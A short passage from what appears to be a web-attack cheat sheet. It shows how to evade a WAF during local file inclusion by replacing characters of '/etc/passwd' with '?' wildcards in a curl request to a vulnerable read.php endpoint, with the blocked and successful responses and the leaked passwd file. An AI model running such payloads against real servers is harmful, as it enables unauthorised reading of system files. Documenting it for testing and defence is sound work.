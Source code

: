 <img src="/assets/img/password-reset.jpeg?raw=true" width="800" height="600"/>


### Bypass LFI WAF

If the WAF blocks you from reading /etc/passwd directly, you can use `?` to bypass it.
```bash
curl http://vulnerable-web.io/read.php?filename=/etc/passwd -i
HTTP/1.1 403 Forbidden
[...]
```
```bash
curl http://vulnerable-web.io/read.php?filename=/??c/?as?wd -i
HTTP/1.1 200 OK
[...]
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```
-------------------------------------------------------------------------------------------------------------
# Open web redirect
